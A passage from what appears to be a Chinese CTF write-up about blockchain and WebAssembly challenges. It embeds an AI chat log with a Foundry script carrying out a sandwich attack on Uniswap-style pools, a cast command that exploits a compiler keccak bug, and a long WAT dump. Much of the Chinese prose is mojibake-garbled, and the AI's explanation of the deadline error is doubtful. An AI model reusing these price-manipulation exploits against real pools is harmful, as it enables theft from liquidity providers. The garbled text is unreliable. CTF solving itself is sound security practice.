        console.log("Step 4: Player swaps accumulated %s MUSK for USDC...", playerMuskAfterArb / 1 ether);
        require(playerMuskAfterArb > 0, "Player has no MUSK to sell");
        // Approve Router to spend player's MUSK
        MUSKCOIN.approve(routerAddr, type(uint256).max); // Approve max for simplicity

        address[] memory pathMuskUsdc = new address[](2);
        pathMuskUsdc[0] = muskAddr;
        pathMuskUsdc[1] = usdcAddr;

        uint256 usdcBeforeFinalSwap = USDC.balanceOf(player);
        router.swapExactTokensForTokens(
            playerMuskAfterArb, // amountIn = all player's MUSK
            0, // amountOutMin
            pathMuskUsdc,
            player, // recipient
            block.timestamp // deadline
        );
        uint256 usdcAfterFinalSwap = USDC.balanceOf(player);
        console.log(" -> Player USDC gained in final swap: %s", (usdcAfterFinalSwap - usdcBeforeFinalSwap) / 1 ether);

        // --- Final Check ---
        uint256 finalPlayerUsdc = USDC.balanceOf(player);
        console.log("Final Player USDC: %s", finalPlayerUsdc / 1 ether);
        console.log("Final Player MUSK: %s", MUSKCOIN.balanceOf(player) / 1 ether);
        console.log("Final Player DOGE: %s", DOGECOIN.balanceOf(player) / 1 ether); // Should be 0

        // Check if solved
        require(challenge.isSolved(), "Challenge NOT solved");
        console.log("Challenge solved!");

        vm.stopBroadcast(); // Stop broadcasting transactions
    }
}
```

**Explanation and Execution:**

1.  **Save:** Save the code above as `Solve.s.sol` inside the `script` directory of your foundry project.
2.  **Environment:** Make sure you have a `.env` file in your project root containing:
    *   `CHALLENGE_CONTRACT=<challenge_contract_address>`
    *   `PLAYER_PRIVATE_KEY=<your_EOA_private_key>` (The private key corresponding to the `PLAYER` address initialized in the `Challenge` constructor).
    *   `RPC_URL=<rpc_url_of_the_private_blockchain>`
3.  **Run:** Execute the script using foundry:
    ```bash
    forge script script/Solve.s.sol:Solve --rpc-url $RPC_URL --broadcast --private-key $PLAYER_PRIVATE_KEY -vvvv
    ```
    *   `-vvvv` provides verbose output, including the console logs from the script, which helps trace the execution and balances.
    *   `--broadcast` sends the transactions to the network.
    *   `--private-key $PLAYER_PRIVATE_KEY` ensures the transactions are signed by the correct player account. Alternatively, if you set `vm.startBroadcast(playerPrivateKey)` correctly, you might omit `--private-key` here, but it's often needed for setup.

This script executes the four-step sandwich attack: manipulates the MUSK/USDC price down using the bot, player arbitrages DOGE for cheap MUSK, manipulates the MUSK/USDC price up using the bot, and finally player sells the accumulated MUSK for a large profit in USDC, achieving the `isSolved()` condition.

**User**:

```console
==========================

Chain 1

Estimated gas price: 1.507284486 gwei

Estimated total gas used for script: 883410

Estimated amount required: 0.00133155018777726 ETH

==========================

##### mainnet
⌠ [Failed] Hash: 0x22277a89e3b7fa771635d151ca9dca07c56ad83c66e24570e8afdf54b0dd7f65
Block: 22174049
Paid: 0.0000145461080145 ETH (23610 gas * 0.61609945 gwei)


##### mainnet
✅  [Success] Hash: 0x0f4b0039e508cd38f3e7b869cc64e8d34d30298a200db1d1b6b78a2c7aef2077
Block: 22174049
Paid: 0.000029104538018 ETH (47240 gas * 0.61609945 gwei)


##### mainnet
⌠ [Failed] Hash: 0x2899ed55f0289a83da9efe79525b86e689a9e0013cfe1b36678028d7d702cb0d
Block: 22174049
Paid: 0.0000147580462253 ETH (23954 gas * 0.61609945 gwei)


##### mainnet
✅  [Success] Hash: 0x511ef6d6041f6fde8df68baa24826c27bb8794918869954d736121e3bc41ff04
Block: 22174049
Paid: 0.000077147973129 ETH (125220 gas * 0.61609945 gwei)


##### mainnet
✅  [Success] Hash: 0x78faf2889cef322564a383c2e29a6684c17248ce8ac6aeb18b1cd58763d580b9
Block: 22174048
Paid: 0.000102773179950808 ETH (147982 gas * 0.694497844 gwei)


##### mainnet
✅  [Success] Hash: 0x3d75ebd6a546bd0f69693533168fb22d3fa10bd2c55aaebd252ffd28349b0812
Block: 22174049
Paid: 0.000029104538018 ETH (47240 gas * 0.61609945 gwei)


Transactions saved to: /home/satgo/ctf-sjtu2025/SandwichMe-dist/challenge/project/broadcast/Solve.s.sol/1/run-latest.json

Sensitive values saved to: /home/satgo/ctf-sjtu2025/SandwichMe-dist/challenge/project/cache/Solve.s.sol/1/run-latest.json

Error: Transaction Failure: 0x22277a89e3b7fa771635d151ca9dca07c56ad83c66e24570e8afdf54b0dd7f65
Transaction Failure: 0x2899ed55f0289a83da9efe79525b86e689a9e0013cfe1b36678028d7d702cb0d
```

Running `cast receipt 0x22277a89e3b7fa771635d151ca9dca07c56ad83c66e24570e8afdf54b0dd7f65 --rpc-url $RPC_URL` returns:

```console
...
revertReason         revert: UniswapV2Router: EXPIRED, data: "0x08c379a000000000000000000000000000000000000000000000000000000000000000200000000000000000000000000000000000000000000000000000000000000018556e69737761705632526f757465723a20455850495245440000000000000000"
```

Which statements correspond to the failed transactions? What can I do?

**Model**: Okay, let's analyze the error and refine the strategy. The "UniswapV2Router: EXPIRED" error indicates that the transaction's `deadline` (or `block.timestamp`) has passed. The Uniswap V2 Router includes this check to prevent transactions from being executed at a much later, potentially unfavorable, time due to price slippage.

**Identifying Corresponding Statements:**

The failed transactions likely correspond to the calls to `swapExactTokensForTokens` on the Uniswap V2 Router in the `Solve` script:

1.  `router.swapExactTokensForTokens` (Step 2: Arbitrage DOGE for cheap MUSK)
2.  `router.swapExactTokensForTokens` (Step 4: Player sells accumulated MUSK at inflated price)

**Cause and Resolution:**

The `block.timestamp` used as the `deadline` is likely too far in the past relative to when the transaction is actually being mined. The miner's block timestamp might be different from the script's execution time, especially if there's network congestion or delays.

**Solutions:**

1.  **Use a more recent deadline:** Instead of relying on `block.timestamp`, add a buffer to it:
    ```solidity
    router.swapExactTokensForTokens(
        // ... other arguments
        block.timestamp + 300 // deadline = current timestamp + 5 minutes (300 seconds)
    );
    ```
    This will give the transaction a 5-minute window to be included in a block. Adjust the buffer (300 seconds) based on the expected block time of the private blockchain and the potential for network delays.

[…]

</blockquote>
</details>

交易所兑æ¢ä¿æŒä»£å¸ä¹˜ç§¯ä¸å˜çš„è¯ï¼Œ<var>x</var><var>y</var> = <var>C</var>两边微分得<var>x</var> <var>dy</var> + <var>y</var> <var>dx</var> = 0，移项å¯å¾—<var>dx</var>/<var>dy</var> = −<var>x</var>/<var>y</var>，å³å°é¢æ±‡ç‡è¿‘似为池中代å¸æ¯”例。å¦å¤–代å¸ä¹˜ç§¯ä¸å˜ä¹Ÿæ˜¯è¿‘似，因为Uniswap收3‰手续费。

MevBot富å¯æ•Œå›½ï¼Œç”¨å®ƒçš„ä½™é¢èƒ½æ“æ§æ±‡ç‡ã€‚命令MevBot高买ä½å–，自己就å¯ä½ä¹°é«˜å–。

<figure>
<table class="booktabs">
<thead>
<tr>
<th rowspan=3>步骤
<th colspan=6>执行åä½™é¢ï¼ˆÃ—10<sup>18</sup>）
<tr>
<th colspan=3>Player
<th colspan=3>MevBot
<th colspan=2>Pair
<th colspan=2>Pair
<tr>
<th>USDC
<th>MUSK
<th>DOGE
<th>USDC
<th>MUSK
<th>DOGE
<th>USDC
<th>MUSK
<th>USDC
<th>DOGE
<tbody>
<tr><td>åˆå§‹çŠ¶æ€
<td>100
<td>100
<td>100
<td>1000
<td>1000
<td>1000
<td>1000
<td>1000
<td>1000
<td>1000
<tr><td>MevBotå°†MUSK全部兑æ¢ä¸ºUSDC
<td>100
<td>100
<td>100
<td><abbr title="1499.248873309964947421">1499</abbr>
<td>0
<td>1000
<td><abbr title="500.751126690035052579">501</abbr>
<td>2000
<td>1000
<td>1000
<tr><td>Playerå°†DOGE全部ç»ç”±USDCå…‘æ¢ä¸ºMUSK
<td>100
<td><abbr title="405.812736481160881466">406</abbr>
<td>0
<td><abbr title="1499.248873309964947421">1499</abbr>
<td>0
<td>1000
<td><abbr title="591.412216078049965737">591</abbr>
<td><abbr title="1694.187263518839118534">1694</abbr>
<td><abbr title="909.338910611985086842">909</abbr>
<td>1100
<tr><td>MevBotå°†USDC全部兑æ¢ä¸ºMUSK
<td>100
<td><abbr title="405.812736481160881466">406</abbr>
<td>0
<td>0
<td><abbr title="1213.897430298300995703">1214</abbr>
<td>1000
<td><abbr title="2090.661089388014913158">2091</abbr>
<td><abbr title="480.289833220538122831">480</abbr>
<td><abbr title="909.338910611985086842">909</abbr>
<td>1100
<tr><td>Playerå°†MUSK全部兑æ¢ä¸ºUSDC
<td><abbr title="1055.911244230710139778">1056</abbr>
<td>0
<td>0
<td>0
<td><abbr title="1213.897430298300995703">1214</abbr>
<td>1000
<td><abbr title="1134.749845157304773380">1135</abbr>
<td><abbr title="886.102569701699004297">886</abbr>
<td><abbr title="909.338910611985086842">909</abbr>
<td>1100
</table>
</figure>

表中的数值是在题目ç¯å¢ƒä¸­è¿è¡Œå¾—到的。因为我ä¸çŸ¥é“æ€ä¹ˆåœ¨æœ¬åœ°è°ƒè¯•ï¼ŒçŸ¥é“如何观察链上数æ®å°±å¾ˆé‡è¦ã€‚通过`cast call`å¯ä»¥æŸ¥è¯¢è§†å›¾ï¼Œæˆ‘写了个脚本查询æ¯ä¸€æ­¥ä¹‹åçš„å„账户的余é¢ã€‚

```sh
CHALLENGE_CONTRACT= # æ¥è‡ªnc
PLAYER_PRIVATE_KEY= # æ¥è‡ªnc
RPC_URL= # æ¥è‡ªé¢˜ç›®é¡µ
ROUTER=0x7a250d5630B4cF539739dF2C5dAcb4c659F2488D # 固定值

USDC=$(cast call $CHALLENGE_CONTRACT "USDC()(address)" --rpc-url=$RPC_URL)
MUSK=$(cast call $CHALLENGE_CONTRACT "MUSKCOIN()(address)" --rpc-url=$RPC_URL)
DOGE=$(cast call $CHALLENGE_CONTRACT "DOGECOIN()(address)" --rpc-url=$RPC_URL)
PLAYER=$(cast call $CHALLENGE_CONTRACT "PLAYER()(address)" --rpc-url=$RPC_URL)
MEV_BOT=$(cast call $CHALLENGE_CONTRACT "MEV_BOT()(address)" --rpc-url=$RPC_URL)
PAIR_MUSK=$(cast call $CHALLENGE_CONTRACT "PAIR()(address)" --rpc-url=$RPC_URL)
PAIR_DOGE=$(cast call $CHALLENGE_CONTRACT "PAIR_DOGE()(address)" --rpc-url=$RPC_URL)

echo Bot USDC, MUSK, DOGE
cast call $USDC "balanceOf(address)(uint256)" $MEV_BOT --rpc-url=$RPC_URL
cast call $MUSK "balanceOf(address)(uint256)" $MEV_BOT --rpc-url=$RPC_URL
cast call $DOGE "balanceOf(address)(uint256)" $MEV_BOT --rpc-url=$RPC_URL
echo Player USDC, MUSK, DOGE
cast call $USDC "balanceOf(address)(uint256)" $PLAYER --rpc-url=$RPC_URL
cast call $MUSK "balanceOf(address)(uint256)" $PLAYER --rpc-url=$RPC_URL
cast call $DOGE "balanceOf(address)(uint256)" $PLAYER --rpc-url=$RPC_URL
echo USDC:MUSK
cast call $PAIR_MUSK "getReserves()(uint256, uint256)" --rpc-url=$RPC_URL
echo USDC:DOGE
cast call $PAIR_DOGE "getReserves()(uint256, uint256)" --rpc-url=$RPC_URL
```

ä¸çŸ¥é“为什么，我在调用swapExactTokensForTokens时必须传入block.timestamp + 10000的期é™ï¼Œå¦åˆ™å°±ä¼šè§¦å‘过期错误。

## SyncWithMe (Solidity)

注æ„到本题指定了固定的编译器版本，å¯èƒ½ä¸è¯¥ç‰ˆæœ¬ç¼–译器的æ¼æ´æœ‰å…³ã€‚æ示说这题需è¦å编译EVM字节ç ã€‚

除了定义的视图，部署在链上的智能åˆçº¦å­—节ç å’ŒçŠ¶æ€ä¹Ÿéƒ½æ˜¯å…¬å¼€çš„，å¯ä»¥é€šè¿‡`cast code ⟨åˆçº¦åœ°å€âŸ© --rpc-url=⟨RPC网å€âŸ©`è·å–字节ç ï¼Œé€šè¿‡`cast storage ⟨åˆçº¦åœ°å€âŸ© ⟨å˜é‡ç´¢å¼•âŸ© --rpc-url=⟨RPC网å€âŸ©`è·å–存储的å˜é‡å€¼ã€‚æ¯ä¸ªå­˜å‚¨çš„å˜é‡æ˜¯32字节，大端åºï¼Œç´¢å¼•ä»0开始。

既然题目说是时间校准问题，试ç€æ ¹æ®è¾“出的hash_valueå˜é‡å€¼åæ¨æ—¶é—´æˆ³ï¼Œå¤±è´¥äº†ã€‚还是照ç€æ示看看å编译结æœå§ã€‚

我一开始试ç€åœ¨Remix IDE上找到对应版本的编译器编译，但优化å‚æ•°å–值范围巨大，ä¸çŸ¥é“应该å–多少。éšä¾¿å–了一个，也ä¸çŸ¥é“为什么Dedaubä¸ç»™æˆ‘å编译，å编译结æœåªæœ‰ä¸€ä¸ªåˆ†å‘器。这时我æ‰æƒ³åˆ°åº”该直æ¥æŠŠé“¾ä¸Šçš„字节ç æ‹¿ä¸‹æ¥ã€‚

[Dedaubçš„å编译结æœ](https://app.dedaub.com/decompile?md5=da14f1cd6aa27c49e5af96d7b70b08fa)表æ˜ï¼Œinternal函数被内è”，而首次调用keccak256函数åªæœ‰ä¸€ä¸ªå‚数，而éæºä»£ç å†™çš„两个（0x40）。

```solidity
function 0x0583e2e2(uint256 varg0, uint256 varg1) public payable { 
    require(msg.data.length - 4 >= 64);
    require(stor_1 <= -2, Panic(17)); // arithmetic overflow or underflow
    stor_1 = stor_1 + 1;
    stor_0 = keccak256(stor_1);
    _isSolved = (keccak256(varg0, varg1) == stor_0) | bytes31(_isSolved);
}
```

ä¸ç¡®å®šï¼Œå†çœ‹çœ‹ã€‚[OKLinkçš„å编译结æœ](https://www.oklink.com/zh-hans/decompile#hash=13a6e4e2c744bb2c304a7827950577ec)有很多错误，但关键的keccak256调用确å®åªæœ‰ä¸€ä¸ªå‚数。

```solidity
        store_a = store_a + 0x01;
        var_a = store_a;
        unresolved_c56bc9f0 = keccak256(var_a);
```

也就是说，时间戳根本è¿è·å–都没è·å–，å®é™…上一直是0。将random_secret_nonceå’Œ0作为å‚æ•°ä¼ å…¥syncWithMeå³å¯ã€‚

```sh
cast send $CHALLENGE_CONTRACT 'syncWithMe(uint256, uint256)' \
	$(cast storage $CHALLENGE_CONTRACT 1 --rpc-url=$RPC_URL) 0 \
	--rpc-url=$RPC_URL --private-key=$PLAYER_PRIVATE_KEY
```

## ActivateIt (MoonBit)

<aside>* 解出äºæ¯”赛结æŸä¹‹å</aside>

@definfoå‰é˜µå­åˆšåœ¨ç³Šç²¾æ—¥è®°æ到过MoonBit语言，åˆæ˜¯webå’Œreverse的交å‰å­¦ç§‘，这题是我该åšçš„。哇，还有函数å¼ç¼–程ï¼è¿˜æ²¡å­¦[λ演算](https://www.bilibili.com/video/av114251867882578)的有难了。

比赛时被几é“没åšå‡ºçš„逆å‘题浪费了ä¸å°‘时间，决定在åšå®Œweb之å‰ä¸å†ç¢°é€†å‘了。åšå®Œwebå，剩下的åŠå¤©æ—¶é—´æˆ‘在区å—链和MoonBit之间选择了区å—链，事å®è¯æ˜è¿™æ˜¯å¯¹çš„。选区å—链å¯ä»¥æ‹¿åˆ°1928分，选MoonBitä¸ä»…有åšä¸å®Œçš„é£é™©ï¼Œè¿˜åªèƒ½æ‹¿åˆ°1000分和一é¢å°çº¢æ——……

时过境è¿ï¼ŒWebAssemblyå·²ä¸å†æ˜¯å½“年那个MVP（minimum viable product），长æˆäº†å¸¦ç±»å‹å’Œåƒåœ¾å›æ”¶çš„多首的怪物。

最新的IDA也åªæ”¯æŒå汇编WASM，ä¸æ”¯æŒå编译。至今，对äºC编写的WASM，最好的逆å‘方法å¯èƒ½è¿˜æ˜¯ç”¨wasm2c编译出一个è¿è¡Œä¸äº†çš„x64二进制，然å用IDAå编译这个编译结æœã€‚WASM逆å‘工具还有很长的路è¦èµ°ã€‚

WABT至今没有支æŒWASM GC，它已被Binaryenå–代。Binaryen的文本格å¼ä¸Chrome调试器显示的格å¼æœ‰ç€å¾®å¦™çš„差别，ä»è°ƒè¯•å™¨ä¸­å¤åˆ¶å‡ºæ¥çš„WATä¸èƒ½è¢«Binaryen解æ。Binaryen生æˆçš„å汇编结æœèƒ½æ ¹æ®æ“作符对栈的æ“作生æˆç±»ä¼¼è¡¨è¾¾å¼çš„嵌套结æ„，比Chrome调试器更好看。

```wasm
;; Chrome 134 DevTools
    i32.const 0
    i32.const 48
    array.new_data $moonbit.bytes 0
    call $username/ActivateIt.hash
    local.set $seed/627
```

```wasm
;; Binaryen 123
;; wasm-dis ActivateIt.wasm
  (local.set $seed/627
   (call $username/ActivateIt.hash
    (array.new_data $moonbit.bytes $moonbit.const_data
     (i32.const 0)
     (i32.const 48)
    )
   )
  )
```

WASM作为一个通用编译目标，什么奇怪的æºè¯­è¨€éƒ½æœ‰ã€‚这题的产物æ¥è‡ªMoonBit（月兔），一门国产的能编译到JSå’ŒWASM的语言。题目最åˆæ供的编译产物基äºå¼•ç”¨è®¡æ•°ï¼Œå¤§é‡çš„increfå’Œdecref调用虽然å¯å¿½ç•¥ä½†å¾ˆå¹²æ‰°é˜…读。åæ¥è¿½åŠ çš„å¦ä¸€ä¸ªç‰ˆæœ¬çš„编译产物基äºWASM GC，没有引用计数代ç ï¼Œå–而代之的是WASMåŸç”Ÿæ供的refç±»å‹ã€‚以下åªåˆ†æGC版本。


<details lang=en>
<summary>Gemini 2.5 Pro Experimental 03-25</summary>
<blockquote>

**User**: This is a CTF challenge. The following WAT-formatted WASM-GC code is compiled from MoonBit, a statically typed programming language.

<details>
<summary lang=zh-Hans>所有以<code>$username</code>å’Œ<code>$$username</code>开头的函数的WATå½¢å¼ï¼ŒåŠå…¶ç›¸å…³çš„ç±»å‹å®šä¹‰ï¼Œçº¦1600è¡Œ</summary>

This is a CTF challenge. The following WAT-formatted WASM-GC code is compiled from MoonBit, a statically typed programming language.

```
(module
  (type $moonbit.string (;0;) (array (field (mut i16))))
  (type $moonbit.bytes (;1;) (array (field (mut i8))))
  (type $moonbit.string_pool_type (;2;) (array (field (mut (ref null $moonbit.string)))))
  (type $<Int*Int> (;3;) (struct (field $field0 i32) (field $field1 i32)))
  (rec
    (type $<<Int*Int>>=><Int*Int>-sig (;4;) (func
      (param $*env/775 (ref $<<Int*Int>>=><Int*Int>))
      (param $c/543 (ref $<Int*Int>))
      (result (ref $<Int*Int>))))
    (type $<<Int*Int>>=><Int*Int> (;5;) (struct (field $field0 (mut (ref null $<<Int*Int>>=><Int*Int>-sig)))))
  )
  (rec
    (type $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>-sig (;6;) (func
      (param $*env/773 (ref $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>))
      (param $*discard_/585 (ref $<<Int*Int>>=><Int*Int>))
      (result (ref $<<Int*Int>>=><Int*Int>))))
    (type $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int> (;7;) (struct (field $field0 (mut (ref null $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>-sig)))))
  )
  (type $<<Int*Int>*<Int*Int>> (;8;) (struct (field $field0 (ref $<Int*Int>)) (field $field1 (ref $<Int*Int>))))
  (rec
    (type $<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>-sig (;9;) (func
      (param $*env/770 (ref $<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>))
      (param $n/593 (ref $<<Int*Int>*<Int*Int>>))
      (result (ref $<<Int*Int>*<Int*Int>>))))
    (type $<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>> (;10;) (struct (field $field0 (mut (ref null $<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>-sig)))))
  )
  (rec
    (type $<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>-sig (;11;) (func
      (param $var0 (ref $<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>))
      (param $var1 (ref $<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>))
      (result (ref $<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>))))
    (type $<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>> (;12;) (struct (field $field0 (mut (ref null $<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>-sig)))))
  )
  (type $$username/ActivateIt.sub_401554|<Int*Int>|.fn/40-cap (;13;) (sub $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int> (struct (field $field0 (mut (ref null $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>-sig))) (field $field1 (mut (ref null $<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>))))))
  (type $$username/ActivateIt.sub_401536|<<Int*Int>*<Int*Int>>|.fn/34-cap (;14;) (sub $<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>> (struct
    (field $field0 (mut (ref null $<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>-sig)))
    (field $field1 (mut (ref null $<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>)))
    (field $field2 (mut (ref null $<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>))))))
  (rec
    (type $<Int>=>Int-sig (;15;) (func
      (param $*env/765 (ref $<Int>=>Int))
      (param $*discard_/632 i32)
      (result i32)))
    (type $<Int>=>Int (;16;) (struct (field $field0 (mut (ref null $<Int>=>Int-sig)))))
  )
  (rec
    (type $<<Int>=>Int>=><Int>=>Int-sig (;17;) (func
      (param $*env/763 (ref $<<Int>=>Int>=><Int>=>Int))
      (param $*x/654 (ref $<Int>=>Int))
      (result (ref $<Int>=>Int))))
    (type $<<Int>=>Int>=><Int>=>Int (;18;) (struct (field $field0 (mut (ref null $<<Int>=>Int>=><Int>=>Int-sig)))))
  )
  (rec
    (type $<<<Int>=>Int>=><Int>=>Int>=>Int-sig (;19;) (func
      (param $*env/759 (ref $<<<Int>=>Int>=><Int>=>Int>=>Int))
      (param $i/648 (ref $<<Int>=>Int>=><Int>=>Int))
      (result i32)))
    (type $<<<Int>=>Int>=><Int>=>Int>=>Int (;20;) (struct (field $field0 (mut (ref null $<<<Int>=>Int>=><Int>=>Int>=>Int-sig)))))
  )
  (type $<UInt*UInt*UInt*UInt> (;21;) (struct
    (field $field0 i32)
    (field $field1 i32)
    (field $field2 i32)
    (field $field3 i32)))
  (rec
    (type $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>-sig (;22;) (func
      (param $r/617 (ref $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>))
      (param $arr/618 (ref $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>))
      (result (ref $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>))))
    (type $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int> (;23;) (struct (field $field0 (mut (ref null $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>-sig)))))
  )
  (type $$username/ActivateIt.sub_401536|<<Int*Int>>=><Int*Int>|.fn/32-cap (;24;) (sub $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int> (struct
    (field $field0 (mut (ref null $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>-sig)))
    (field $field1 (mut (ref null $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>)))
    (field $field2 (mut (ref null $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>))))))
  (type $FixedArray<UnsafeMaybeUninit<<<Int>=>Int>=><Int>=>Int>> (;25;) (array (field (mut (ref null $<<Int>=>Int>=><Int>=>Int)))))
  (type $@moonbitlang/core/builtin.Array<<<Int>=>Int>=><Int>=>Int> (;26;) (struct (field $field0 (mut (ref $FixedArray<UnsafeMaybeUninit<<<Int>=>Int>=><Int>=>Int>>))) (field $field1 (mut i32))))
  (rec
    (type $<<Byte>=>Int>=>Int-sig (;27;) (func
      (param $x/614 (ref $<<Byte>=>Int>=>Int))
      (param $var1 (ref $<Int>=>Int))
      (result i32)))
    (type $<<Byte>=>Int>=>Int (;28;) (struct (field $field0 (mut (ref null $<<Byte>=>Int>=>Int-sig)))))
  )
  (type $FixedArray<UInt> (;29;) (array (field (mut i32))))
  (type $FixedArray::iter|UInt|.fn/6-cap (;30;) (sub $<<Byte>=>Int>=>Int (struct (field $field0 (mut (ref null $<<Byte>=>Int>=>Int-sig))) (field $field1 (mut (ref null $FixedArray<UInt>))))))
  (type $$username/ActivateIt.sub_401554|Int|.fn/38-cap (;31;) (sub $<Int>=>Int (struct
    (field $field0 (mut (ref null $<Int>=>Int-sig)))
    (field $field1 (mut (ref null $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>)))
    (field $field2 (mut (ref null $<Int>=>Int))))))
  (rec
    (type $<<<Int>=>Int>=><Int>=>Int>=><<Int>=>Int>=><Int>=>Int-sig (;32;) (func
      (param $*env/747 (ref $<<<Int>=>Int>=><Int>=>Int>=><<Int>=>Int>=><Int>=>Int))
      (param $f/606 (ref $<<Int>=>Int>=><Int>=>Int))
      (result (ref $<<Int>=>Int>=><Int>=>Int))))
    (type $<<<Int>=>Int>=><Int>=>Int>=><<Int>=>Int>=><Int>=>Int (;33;) (struct (field $field0 (mut (ref null $<<<Int>=>Int>=><Int>=>Int>=><<Int>=>Int>=><Int>=>Int-sig)))))
  )
  (type $$username/ActivateIt.sub_401116|Int|.fn/22-cap (;34;) (sub $<<<Int>=>Int>=><Int>=>Int>=><<Int>=>Int>=><Int>=>Int (struct (field $field0 (mut (ref null $<<<Int>=>Int>=><Int>=>Int>=><<Int>=>Int>=><Int>=>Int-sig))) (field $field1 (mut (ref null $<<Int>=>Int>=><Int>=>Int))))))
  (type $$username/ActivateIt.sub_401116|<<Int*Int>>=><Int*Int>|.fn/17-cap (;35;) (sub $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int> (struct
    (field $field0 (mut (ref null $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>-sig)))
    (field $field1 (mut (ref null $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>)))
    (field $field2 (mut (ref null $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>))))))
  (type $Ref<Int> (;36;) (struct (field $field0 (mut i32))))
  (type $FixedArray<UInt64> (;37;) (array (field (mut i64))))
  (type $@moonbitlang/core/random/internal/random_source.State (;38;) (struct
    (field $field0 (mut (ref $FixedArray<UInt64>)))
    (field $field1 (mut (ref $FixedArray<UInt64>)))
    (field $field2 (mut i32))
    (field $field3 (mut i32))
    (field $field4 (mut i32))))
  (type $@moonbitlang/core/random/internal/random_source.ChaCha8 (;39;) (struct (field $field0 (ref $@moonbitlang/core/random/internal/random_source.State))))
  (type $@moonbitlang/core/random.Rand (;40;) (struct (field $field0 (ref $@moonbitlang/core/random/internal/random_source.ChaCha8))))
  (rec
    (type $<Int>=><<Int>=>Int>=><Int>=>Int-sig (;41;) (func
      (param $n/597 (ref $<Int>=><<Int>=>Int>=><Int>=>Int))
      (param $var1 i32)
      (result (ref $<<Int>=>Int>=><Int>=>Int))))
    (type $<Int>=><<Int>=>Int>=><Int>=>Int (;42;) (struct (field $field0 (mut (ref null $<Int>=><<Int>=>Int>=><Int>=>Int-sig)))))
  )
  (type $$username/ActivateIt.encrypt.fn/50-cap (;43;) (sub $<Int>=><<Int>=>Int>=><Int>=>Int (struct
    (field $field0 (mut (ref null $<Int>=><<Int>=>Int>=><Int>=>Int-sig)))
    (field $field1 (mut (ref null $@moonbitlang/core/random.Rand)))
    (field $field2 (mut i32)))))
  (rec
    (type $<Int*Int>=>Unit-sig (;44;) (func
      (param $n/593 (ref $<Int*Int>=>Unit))
      (param $var1 i32)
      (param $var2 i32)
      (result i32)))
    (type $<Int*Int>=>Unit (;45;) (struct (field $field0 (mut (ref null $<Int*Int>=>Unit-sig)))))
  )
  (type $FixedArray<UnsafeMaybeUninit<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>> (;46;) (array (field (mut (ref null $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>)))))
  (type $@moonbitlang/core/builtin.Array<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>> (;47;) (struct (field $field0 (mut (ref $FixedArray<UnsafeMaybeUninit<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>>))) (field $field1 (mut i32))))
